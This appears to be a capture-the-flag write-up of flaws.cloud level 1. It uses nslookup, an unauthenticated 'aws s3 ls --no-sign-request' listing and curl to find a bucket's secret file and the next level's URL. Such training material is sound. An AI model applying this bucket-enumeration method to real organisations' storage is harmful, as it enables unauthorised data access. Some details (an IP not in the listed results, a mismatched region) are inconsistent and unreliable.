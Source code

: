 ## Level 1 - AWS Enumeration

### Level 1 Prerequisites
1. AWS CLI 
   1.  `curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"`
   2.  `unzip awscliv2.zip`
   3.  `sudo ./aws/install`

### Level 1 Table of Contents
- [Level 1 - AWS Enumeration](#level-1---aws-enumeration)
  - [Level 1 Prerequisites](#level-1-prerequisites)
  - [Level 1 Table of Contents](#level-1-table-of-contents)
  - [Level 1 Tools](#level-1-tools)
  - [Important Notes From Level 1](#important-notes-from-level-1)
  - [Commands Used in Level 1](#commands-used-in-level-1)
  - [Level 1 Steps](#level-1-steps)
    - [Level 1 Step 1 - Executing NS Lookup Against Challenge URL](#level-1-step-1---executing-ns-lookup-against-challenge-url)
      - [Level 1 Step 1 Response - Discovered IP's](#level-1-step-1-response---discovered-ips)
    - [level 1 Step 2 Execute NS Lookup Against Discovered IP/IP's](#level-1-step-2-execute-ns-lookup-against-discovered-ipips)
      - [level 1 Step 2 Response - Discovered \& Tranlsated S3 Bucket](#level-1-step-2-response---discovered--tranlsated-s3-bucket)
    - [level 1 Step 3 Access \& List S3 Bucket Files using AWS CLI - Un-Authenticated](#level-1-step-3-access--list-s3-bucket-files-using-aws-cli---un-authenticated)
    - [level 1 Step 3 Response - Discovered Secret File](#level-1-step-3-response---discovered-secret-file)
    - [level 1 Step 4 Get Level 2 URL From Secret File](#level-1-step-4-get-level-2-url-from-secret-file)
      - [level 1 Step 4 Response](#level-1-step-4-response)


### Level 1 Tools
1. [`nslookup`](https://www.nslookup.io/ "DNS Lookup Tool")
2. [`aws s3 ls`](https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html "AWS S3 List Command")
3. [`curl`](https://curl.haxx.se/ "Curl Command Line Tool")
4. ['grep'](https://www.gnu.org/software/grep/ "Grep Command Line Tool")
5. 


### Important Notes From Level 1 
| :pushpin: Pin                 | Content                                                               |
|-------------------------------|:----------------------------------------------------------------------|
| :pushpin:  Bucket IP Example  | `http://flaws.cloud.s3-website-us-west-2.amazonaws.com`               |   
|-------------------------------|:----------------------------------------------------------------------|
| :pushpin:  Bucket URL         | `http://flaws.cloud.s3-website-us-west-2.amazonaws.com`               |
|-------------------------------|:----------------------------------------------------------------------|
| :pushpin:  Level Secret File  | `secret-dd02c7c.html`                                                 |
|-------------------------------|:----------------------------------------------------------------------|
| :pushpin:  Level 2 URL        | `http://flaws.cloud.s3-website-us-west-2.amazonaws.com/level2`    
|-------------------------------|:----------------------------------------------------------------------|


### Commands Used in Level 1 
| :pager: Command                                                                           | Description                                                           |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------|
| :pager:  `nslookup flaws.cloud`                                                           | Execute NS Lookup Against Challenge URL                               |   
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------|
| :pager `aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2`                | Access & List S3 Bucket Files using AWS CLI - Un-Authenticated        |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------|
| :pager:  `curl -s http://flaws.cloud/secret-dd02c7c.html | grep -oP '<a href="\K[^"]+'`   | Get Level 2 URL From Secret File                                      |
|-------------------------------------------------------------------------------------------|:----------------------------------------------------------------------|


### Level 1 Steps

#### Level 1 Step 1 - Executing NS Lookup Against Challenge URL 
`nslookup flaws.cloud`

##### Level 1 Step 1 Response - Discovered IP's

```
Server:         192.168.220.2
Address:        192.168.220.2#53

Non-authoritative answer:
Name:   flaws.cloud
Address: 52.92.212.19
Name:   flaws.cloud
Address: 52.92.145.11
Name:   flaws.cloud
Address: 52.218.234.146
Name:   flaws.cloud
Address: 52.92.192.227
Name:   flaws.cloud
Address: 52.218.237.242
Name:   flaws.cloud
Address: 52.92.194.107
Name:   flaws.cloud
Address: 52.92.130.131
Name:   flaws.cloud
Address: 52.92.136.59
```

> **Note**
> List of Discovered IP's, 1 IP will be used for the next step

| :memo: NOTE       | `52.92.145.3`           |
|-------------------|:------------------------|



#### level 1 Step 2 Execute NS Lookup Against Discovered IP/IP's
`nslookup 52.92.145.3`

##### level 1 Step 2 Response - Discovered & Tranlsated S3 Bucket 

```
3.145.92.52.in-addr.arpa        name = s3-website-us-west-2.amazonaws.com.
Authoritative answers can be found from:
```

> **Note**
> S3 Bucket Discovered - s3-website-us-west-2.amazonaws.com

| :pushpin: PIN | `http://flaws.cloud.s3-website-us-west-2.amazonaws.com`   |
|---------------|:----------------------------------------------------------|




#### level 1 Step 3 Access & List S3 Bucket Files using AWS CLI - Un-Authenticated
`aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2`

> **Warning**
> No Sign Request & Region Flags are Required for Un-Authenticated Users

| :warning: WARNING                                 | 
|:--------------------------------------------------|
| :triangular_flag_on_post: --no-sign-request       |
|:--------------------------------------------------|
| :triangular_flag_on_post: --region us-west-1  |

#### level 1 Step 3 Response - Discovered Secret File
```
2017-03-13 23:00:38       2575 hint1.html
2017-03-02 23:05:17       1707 hint2.html
2017-03-02 23:05:11       1101 hint3.html
2020-05-22 14:16:45       3162 index.html
2018-07-10 12:47:16      15979 logo.png
2017-02-26 20:59:28         46 robots.txt
2017-02-26 20:59:30       1051 secret-dd02c7c.html

```

> **Note**
> Secret HTML File Discovered 

| :pushpin: PIN | `secret-dd02c7c.html`   |
|---------------|:------------------------|



#### level 1 Step 4 Get Level 2 URL From Secret File
> **Note**
> This can be done manually or using curl

**Using CURL Multi Line**
```
export url="http://flaws.cloud/secret-dd02c7c.html"
curl -s $url | grep -oP '<a href="\K[^"]+' 
```

**Using CURL One Line**
`curl -s http://flaws.cloud/secret-dd02c7c.html | grep -oP '<a href="\K[^"]+'`




| :memo: URL       | `curl -s $url | grep -oP '<a href="\K[^"]+`                 |
|-------------------|:-----------------------------------------------------------|

##### level 1 Step 4 Response

`http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`


| :pushpin: PIN | `http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`   |
|---------------|:---------------------------------------------------------------|






